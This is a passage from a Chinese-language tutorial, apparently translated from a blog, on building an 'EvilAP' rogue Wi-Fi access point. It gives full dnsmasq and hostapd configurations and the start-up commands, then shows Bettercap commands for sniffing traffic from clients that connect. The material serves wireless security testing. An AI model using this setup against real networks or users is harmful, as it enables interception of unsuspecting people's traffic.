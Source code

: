 dnsmasq.conf

```
interface=alfa
dhcp-range=192.168.88.10,192.168.88.100,255.255.255.0,12h
dhcp-option=3,192.168.88.1
dhcp-option=6,192.168.88.1
server=1.1.1.1
server=64.6.64.6
log-queries
log-dhcp
listen-address=127.0.0.1
```

hostapd.conf

```
interface=alfa
country_code=US
driver=nl80211
ssid=EvilAP
hw_mode=g
channel=6
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
wpa=2
wpa_passphrase=eviltwinpass
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
ieee80211n=1
wmm_enabled=1
```

如果你的和我的不同，记得调整接口和 DHCP 选项。请注意， *ssid* 行是您的 EvilAP 将广播的接入点的名称。所以…如果出于某种奇怪的原因，你选择从我的文章中学习 wifi 测试，我鼓励你把名字改得不那么显眼。

让我们开始吧。

```
# hostapd -B ./hostapd.conf
# dnsmasq -C ./dnsmasq.conf
```

此时，一切都应该启动并运行了。恭喜你！您已经成功地将您的 Linux 机器或单板计算机变成了一个正常工作的接入点。请随意打开手机上的 Wi-Fi 设置，并查看 EvilAp 接入点广播它不是那么秘密的存在。

## 更好地使用 Bettercap

为什么我说更好？最初，我遵循了某个资源，它告诉我安装一个版本，结果证明是相当无用和过时的，所以在安装这个方便的工具时，一定要遵循官方文件。

如果我们的邪恶接入点只是允许客户端连接到它，那么它就不是非常邪恶。这就是 Bettercap 的用武之地。Bettercap 是一个非常通用且易于使用的工具，它使安全爱好者、专业人员和逆向工程师(以及其他一些人)能够对 WiFi 和蓝牙网络进行各种无线侦察和攻击。

首先，我们将 Bettercap 连接到 EvilAP 的广播接口，这样我们就可以看到那里发生的活动。

```
# bettercap -iface alfa
> net.sniff on
> net.show
```
